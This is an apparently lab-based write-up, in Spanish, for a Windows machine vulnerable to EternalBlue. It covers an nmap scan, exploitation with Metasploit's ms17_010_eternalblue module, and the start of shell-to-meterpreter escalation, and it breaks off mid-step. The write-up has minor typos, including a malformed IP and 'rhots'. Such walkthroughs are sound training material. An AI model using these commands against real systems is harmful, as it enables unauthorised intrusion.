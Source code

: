 
# 1. Reconocimiento

Hacemos un `sudo nmap -p- -sVC -sC -sS --open -vvv -n -Pn 10.10149.61 -oN escaneoBlue`.

Encontramos 9 puertos abiertos, 3 de ellos por debajo del 1000.

Esta máquina es vulnerable a [[EternalBlue]], que está corriendo por el puerto 445.

# 2. Ganando acceso

1. Iniciamos Metasploit:

> `msfconsole`

2. Buscamos un sploit que nos sirva:

> `search eternalblue`

Y cogeremos el del path: `exploit/windows/smb/ms17_010_eternalblue`.

Hacemos `use exploit/windows/smb/ms17_010_eternalblue` y `show options`... Nos falta el RHOSTS, que es el que tenemos que poner: `set rhots ip`.

Vamos bien, pero por el bien de aprender, vamos a cambiar el payload a uno con una shell, en vez del meterpreter.

3. Lo corremos:

> `run`

# 3. Escalando privilegios

1. Convertimos nuestra shell (normal) a una meterpreter:

> `use post/multi/manage/shell_to_meterpreter`

2. 

